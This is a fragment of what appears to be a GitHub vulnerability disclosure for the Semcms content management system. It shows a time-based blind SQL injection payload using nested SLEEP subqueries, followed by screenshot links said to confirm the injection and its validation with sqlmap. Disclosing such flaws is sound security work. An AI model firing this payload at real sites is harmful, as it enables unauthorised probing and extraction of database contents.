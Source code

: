 ```sql
-1' AND (SELECT 1 FROM (SELECT(SLEEP(5)))b) AND 'a'=
```

Delay sub queries twice.

![image](https://github.com/gatsby2003/Semcms/assets/135791683/c4ba8882-abfa-45ba-a917-72237238491d)


Successfully imported controllable parameters at the database level.

![image](https://github.com/gatsby2003/Semcms/assets/135791683/9b085907-6308-4679-9924-e57be1951441)


Sqlmap validation.

![image](https://github.com/gatsby2003/Semcms/assets/135791683/2dc27f76-6f11-43b1-b342-49d9163e6b74)
